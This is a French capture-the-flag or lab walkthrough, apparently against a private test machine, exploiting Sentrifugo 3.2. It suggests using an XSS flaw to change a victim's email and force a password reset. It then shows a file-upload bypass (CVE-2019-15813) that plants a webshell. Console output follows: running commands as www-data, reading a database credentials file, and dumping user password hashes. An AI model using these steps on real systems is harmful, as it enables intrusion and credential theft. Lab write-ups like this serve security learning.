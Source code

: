 En revanche tenter d'obtenir le `document.cookie` semble échouer. Ce dernier doit être en `httpOnly`.

Plus tard, je me suis penché plus en détails sur cette exploitation et effectivement le formulaire faillible demande beaucoup d'infos et la définition du mot de passe semble se faire sur une étape ultérieure.

Dans un cas d'exploitation réelle, ce serait plus intelligent d'utiliser la faille XSS pour modifier l'adresse email de l'utilisateur par la nôtre puis forcer la réinitialisation du mot de passe.

L'autre vulnérabilité est plus simple : on a une page permettant l'upload de fichiers, mais les vérifications sont faites côté client.

[Sentrifugo 3.2 - File Upload Restriction Bypass - PHP webapps Exploit](https://www.exploit-db.com/exploits/47323)

J'ai réécrit l'exploit pour qu'il donne un shell semi-interactif : [exploits/devloop-cve-2019-15813.py](https://github.com/devl00p/exploits/blob/main/devloop-cve-2019-15813.py)

```console
$ python3 sentrifugo.py http://192.168.56.193/sentrifugo/ chuck@localhost.com helicopter125
== Sentrifugo 3.2 Arbitrary Upload exploit ==
Login successful
Backdoor uploaded at http://192.168.56.193/sentrifugo/public/uploads/expense_receipt_temp/1683455408_3_shell.php. Communicating with webshell
Enter 'quit' to exit
cmd$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
cmd$ uname -a
Linux view 4.15.0-66-generic #75-Ubuntu SMP Tue Oct 1 05:24:09 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

J'ai récupéré la config SQL du *Sentrifugo* :

```console
www-data@view:/var/www/html/sentrifugo$ cat public/db_constants.php 
<?php
                   defined('SENTRIFUGO_HOST') || define('SENTRIFUGO_HOST','127.0.0.1');
                   defined('SENTRIFUGO_USERNAME') || define('SENTRIFUGO_USERNAME','sentrifugo');
                   defined('SENTRIFUGO_PASSWORD') || define('SENTRIFUGO_PASSWORD','toor');
                   defined('SENTRIFUGO_DBNAME') || define('SENTRIFUGO_DBNAME','sentrifugo');
```

La plupart des hashes présents en base étaient incassables sauf le dernier correspondant à `toor`.

```
mysql> select id, emailaddress, isactive, emppassword from main_users;
+----+----------------------+----------+----------------------------------+
| id | emailaddress         | isactive | emppassword                      |
+----+----------------------+----------+----------------------------------+
|  1 | admin@example.com    |        1 | 3f1d184476f900cef354d24febcdd448 |
|  2 | bug@localhost.com    |        1 | 6818e7d8358317948aa16b0d58fbedd1 |
|  3 | chuck@localhost.com  |        1 | 9cd91704a01db534aad288958979cc47 |
|  4 | dennis@localhost.com |        1 | 1802c79d8e1acb9302116cca0e476c97 |
|  5 | wayne@localhost.com  |        0 | 7b24afc8bc80e548d66c4e7ff72171c5 |
+----+----------------------+----------+----------------------------------+
5 rows in set (0.00 sec)
```
